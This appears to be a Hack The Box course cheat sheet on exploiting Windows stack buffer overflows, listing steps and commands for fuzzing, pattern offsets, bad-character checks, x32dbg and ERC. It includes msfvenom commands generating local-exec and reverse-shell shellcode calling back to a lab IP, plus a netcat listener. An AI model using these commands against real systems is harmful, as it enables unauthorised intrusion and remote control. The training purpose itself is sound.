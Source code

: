 ## Buffer Overflow Steps



1. Fuzzing Parameters

2. Controlling EIP

3. Identifying Bad Characters

4. Finding a Return Instruction

5. Jumping to Shellcode



## Commands



| Command | Description |

| ----- | ----- |

| **General** |

| `xfreerdp /v:<target IP address> /u:htb-student /p:<password>` | RDP to Windows VM |

| `/usr/bin/msf-pattern_create -l 5000` | Create Pattern |

| `/usr/bin/msf-pattern_offset -q 31684630` | Find Pattern Offset |

| `netstat -a \|findstr LISTEN` | List listening ports on a Windows machine |

| `.\nc.exe 127.0.0.1 8888` | Interact with port |

| `msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'` | Generate Local Privesc Shellcode |

| `msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python' -b '\x00\0x0a'` | Generate Reverse Shell Shellcode |

| `nc -lvnp 1234` | Listen for reverse shell |

| **x32dbg** |

| `F3` | Open file |

| `alt+A` | Attach to a process |

| `alt+L` | Go to Logs Tab |

| `alt+E` | Go to Symbols Tab |

| `ctrl+f` | Search for instruction |

| `ctrl+b` | Search for pattern |

| `Search For>All Modules>Command` | Search all loaded modules for instruction |

| `Search For>All Modules>Pattern` | Search all loaded modules for pattern |

| **ERC** |

| `ERC --config SetWorkingDirectory C:\Users\htb-student\Desktop\` | Configure Working Directory |

| `ERC --pattern c 5000` | Create Pattern |

| `ERC --pattern o 1hF0` | Find Pattern Offset |

| `ERC --bytearray` | Generate All Characters Byte Array |

| `ERC --bytearray -bytes 0x00` | Generate Byte Array excluding certain bytes |

| `ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin` | Compare bytes in memory to a Byte Array file |

| `ERC --ModuleInfo` | List loaded modules and their memory protections |

| **Python** |

| `python -c "print('A'*10000)"` | Print fuzzing payload |

| `python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"` | Write fuzzing payload to a file |

| `breakpoint()` | Add breakpoint to Python exploit |

| `c` | Continue from breakpoint |
